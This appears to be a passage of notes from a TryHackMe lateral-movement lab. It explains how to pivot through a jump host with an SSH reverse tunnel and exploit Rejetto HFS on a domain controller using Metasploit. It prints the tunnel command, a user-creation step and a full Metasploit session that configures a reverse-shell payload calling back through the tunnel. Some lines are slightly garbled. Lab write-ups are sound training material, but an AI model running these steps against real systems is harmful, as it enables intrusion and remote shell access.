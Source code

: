- The **LHOST** parameter usually serves two purposes: it is used as the IP where a listener is bound on the attacker's machine to receive a reverse shell; it is also embedded on the payload so that the victim knows where to connect back when the exploit is triggered. In our specific scenario, since THMDC won't be able to reach us, we need to force the payload to connect back to THMJMP2, but we need the listener to bind to the attacker's machine on `127.0.0.1`. To this end, Metasploit provides an optional parameter `ReverseListenerBindAddress`, which can be used to specify the listener's bind address on the attacker's machine separately from the address where the payload will connect back. In our example, we want the reverse shell listener to be bound to 127.0.0.1 on the attacker's machine and the payload to connect back to THMJMP2 (as it will be forwarded to the attacker machine through the SSH tunnel).
- Our exploit must also run a web server to host and send the final payload back to the victim server. We use **SRVHOST** to indicate the listening address, which in this case is 127.0.0.1, so that the attacker machine binds the webserver to localhost. While this might be counterintuitive, as no external host would be able to point to the attacker's machine localhost, the SSH tunnel will take care of forwarding any connection received on THMJMP2 at SRVPORT back to the attacker's machine.  
    
- The **RHOSTS** is set to point to 127.0.0.1 as the SSH tunnel will forward the requests to THMDC through the SSH tunnel established with THMJMP2. RPORT is set to 8888, as any connection sent to that port on the attacker machine will be forwarded to port 80 on THMDC.

```
useradd paein -m -d /home/paein -s /bin/true
passwd Password123
```

```
ssh paein@10.50.121.228 -R 8888:thmdc.za.tryhackme.com:80 -L *:6670:127.0.0.1:6670 -L *:7885:127.0.0.1:7885 -N
```

```
systemctl enable ssh
```

```
[*] Using exploit/windows/http/rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp
payload => windows/shell_reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost 10.200.124.249  **ip of **thmjmp2.za.tryhackme.com*
lhost => thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7885
lport => 7885
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
srvhost => 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 6666
srvport => 6666
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 6670
3srvport => 6670
msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
rport => 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```
